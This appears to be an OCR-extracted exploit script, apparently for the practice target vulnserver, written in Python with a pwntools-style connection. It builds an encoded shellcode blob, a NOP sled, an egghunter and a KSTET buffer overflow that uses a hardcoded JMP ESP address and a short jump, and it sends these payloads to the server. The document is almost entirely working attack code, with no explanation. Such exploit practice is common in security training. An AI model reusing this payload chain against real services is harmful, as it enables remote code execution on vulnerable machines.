```
shellcode += b"\x77\x80\x79\xea\x16\x02\x80\x3f\xf8\x3b\x4b"  
shellcode += b"\x32\xf9\x7c\xb6\xbf\xab\xd5\xbc\x12\x5b\x51"  
shellcode += b"\x88\xae\xd0\x29\x1c\xb7\x05\xf9\x1f\x96\x98"  
shellcode += b"\x71\x46\x38\x1b\x55\xf2\x71\x03\xba\x3f\xcb"  
shellcode += b"\xb8\x08\xcb\xca\x68\x41\x34\x60\x55\x6d\xc7"  
shellcode += b"\x78\x92\x4a\x38\x0f\xea\xa8\xc5\x08\x29\xd2"  
shellcode += b"\x11\x9c\xa9\x74\xd1\x06\x15\x84\x36\xd0\xde"  
shellcode += b"\x8a\xf3\x96\xb8\x8e\x02\x7a\xb3\xab\x8f\x7d"  
shellcode += b"\x13\x3a\xcb\x59\xb7\x66\x8f\xc0\xee\xc2\x7e"  
shellcode += b"\xfc\xf0\xac\xdf\x58\x7b\x40\x0b\xd1\x26\x0d"  
shellcode += b"\xf8\xd8\xd8\xcd\x96\x6b\xab\xff\x39\xc0\x23"  
shellcode += b"\x4c\xb1\xce\xb4\xb3\xe8\xb7\x2a\x4a\x13\xc8"  
shellcode += b"\x63\x89\x47\x98\x1b\x38\xe8\x73\xdb\xc5\x3d"  
shellcode += b"\xd3\x8b\x69\xee\x94\x7b\xca\x5e\x7d\x91\xc5"  
shellcode += b"\x81\x9d\x9a\x0f\xaa\x34\x61\xd8\x15\x60\xe1"  
shellcode += b"\xee\xfe\x73\xf1\x1f\xa3\xfa\x17\x75\x4b\xab"  
shellcode += b"\x80\xe2\xf2\xf6\x5a\x92\xfb\x2c\x27\x94\x70"  
shellcode += b"\xc3\xd8\x5b\x71\xae\xca\x0c\x71\xe5\xb0\x9b"  
shellcode += b"\x8e\xd3\xdc\x40\x1c\xb8\x1c\x0e\x3d\x17\x4b"  
shellcode += b"\x47\xf3\x6e\x19\x75\xaa\xd8\x3f\x84\x2a\x22"  
shellcode += b"\xfb\x53\x8f\xad\x02\x11\xab\x89\x14\xef\x34"  
shellcode += b"\x96\x40\xbf\x62\x40\x3e\x79\xdd\x22\xe8\xd3"  
shellcode += b"\xb2\xec\x7c\xa5\xf8\x2e\xfa\xaa\xd4\xd8\xe2"  
shellcode += b"\x1b\x81\x9c\x1d\x93\x45\x29\x66\xc9\xf5\xd6"  
shellcode += b"\xbd\x49\x05\x9d\x9f\xf8\x8e\x78\x4a\xb9\xd2"  
shellcode += b"\x7a\xa1\xfe\xea\xf8\x43\x7f\x09\xe0\x26\x7a"  
shellcode += b"\x55\xa6\xdb\xf6\xc6\x43\xdb\xa5\xe7\x41"

payload = ""  
payload += "GDOG "  
payload += "arzy"*2  
payload += "\xcc"*4 # debugger  
payload += "\x90"*100  
payload += shellcode  
r.sendline(payload)  
r.recvline()

egghunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"  
egghunter += "\xef\xb8\x61\x72\x7a\x79\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

payload = ""  
payload += "KSTET "  
payload += "A"*(70 - 50 + 2 + 4) # -50 for egghunter buffer, +4 for JMP ESP alignment  
payload += egghunter  
payload += "B"*(48 - 32 - 4) # 48 (buffer for egghunter - egghunter length - 4 bytes for JMP ESP)  
payload += p32(0x625011af) # JMP ESP  
payload += "\xeb\xce\x90\x90" # JMP -50

r.sendline(payload)  
r.close()
```

